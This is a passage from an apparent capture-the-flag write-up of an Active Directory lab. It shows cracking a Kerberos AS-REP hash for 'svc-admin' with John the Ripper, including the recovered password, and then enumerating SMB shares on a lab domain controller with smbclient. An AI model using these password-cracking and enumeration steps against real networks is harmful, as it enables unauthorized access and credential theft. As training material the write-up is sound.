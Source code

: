 ```php
john svc-admin_hash.txt --wordlist=passwordlist.txt
```

Results

```php
management2005   ($krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL)     
```

![image.png](assets/screenshots/Attactive/2.webp)

## Enumerating SMB Shares Using Valid Credentials

With valid credentials in hand, we proceed to enumerate available SMB shares within the domain. This step allows us to discover accessible resources, potential sensitive files, and misconfigurations that could aid in further privilege escalation or lateral movement.
```php
smbclient -L //10.10.109.124 -U svc-admin
```

![image.png](assets/screenshots/Attactive/3.webp)

Results

```php
 Sharename       Type      Comment
        ---------       ----      -------
smbclient: Ignoring: /etc/krb5.conf:81: missing =
smbclient: Ignoring: /etc/krb5.conf:81: missing =
        ADMIN$          Disk      Remote Admin
        backup          Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
```

Among the enumerated shares, the `backup` share stood out as potentially valuable. I accessed it to inspect its contents and identify any sensitive or misconfigured files that might aid in further exploitation.
